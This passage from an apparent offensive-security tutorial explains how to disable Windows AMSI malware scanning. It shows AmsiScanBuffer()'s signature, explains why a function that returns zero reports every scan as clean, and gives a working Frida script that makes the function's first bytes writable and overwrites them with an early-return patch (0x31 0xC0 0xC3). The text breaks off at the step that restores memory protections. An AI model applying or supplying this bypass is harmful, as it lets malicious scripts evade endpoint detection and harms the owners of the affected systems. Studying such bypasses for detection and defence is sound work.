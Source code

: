 ```text
HRESULT AmsiScanBuffer(
  [in]           HAMSICONTEXT amsiContext,
  [in]           PVOID        buffer,
  [in]           ULONG        length,
  [in]           LPCWSTR      contentName,
  [in, optional] HAMSISESSION amsiSession,
  [out]          AMSI_RESULT  *result
);
```

You pass this function various parameters, including the buffer you want to be scanned, and you get both an *AMSI_RESULT* containing the detection result, and a *HRESULT* containing the error code of the function. If the function returns zero immediately, however, then both the *AMSI_RESULT* and the *HRESULT* will still be zero. For the *AMSI_RESULT*, zero means "AMSI_RESULT_CLEAN". For the *HRESULT*, zero means "S_OK". That's why patching *AmsiScanBuffer()* to always return zero is enough to effectively disable it. 

## Writing Our Own

Let's warm up before we start trying to craft our own bypasses, and implement the classic *AmsiScanBuffer()* patch in Frida. We'll write a script that identifies the location and signature of *AmsiScanBuffer()* to give you all the information you'd need to create your own stealthy AMSI patcher. Then we'll attempt to actually do the patch ourself. Here are the steps we need to follow, then:

1. Find the base address of *amsi.dll* in the process.
2. Find the address of the *AmsiScanBuffer()* function, and print its location and its signature in memory.
3. Change the memory protections of the first three bytes of *AmsiScanBuffer()* to make it writable.
4. Overwrite the first three bytes with a few assembly instructions that force the function to return early with a value of zero.
5. Restore the memory protections to their original state.

Here's what that looks like, when implemented as a Frida script:

```javascript
var amsi = Process.getModuleByName("amsi.dll");

function bufferToHex (buffer) {
    return [...new Uint8Array (buffer)]
        .map (b => b.toString (16).padStart (2, "0"))
        .join (" ");
}

// find AmsiScanBuffer()
var scanner = DebugSymbol.getFunctionByName("AmsiScanBuffer");
var scannerOffset = scanner.sub(amsi.base);
console.log("AmsiScanBuffer() location: " + scanner + " (amsi.dll + " + scannerOffset + ")");

// print the first 24 bytes of the function
var signature = scanner.readByteArray(24);
console.log("AmsiScanBuffer() signature: " + bufferToHex(signature));

//change memory protections
console.log("Attempting to change memory protections...");
var oldProtect = Process.findRangeByAddress(scanner)["protection"];
Memory.protect(scanner, 3, "rw-");

//patch the function
console.log("Attempting to patch AmsiScanBuffer()...");
var patch = [0x31, 0xC0, 0xC3]; // xorq %rax,%rax; exit;
scanner.writeByteArray(patch);

//restore memory protections
console.log("Attempting to restore memory protections...");
```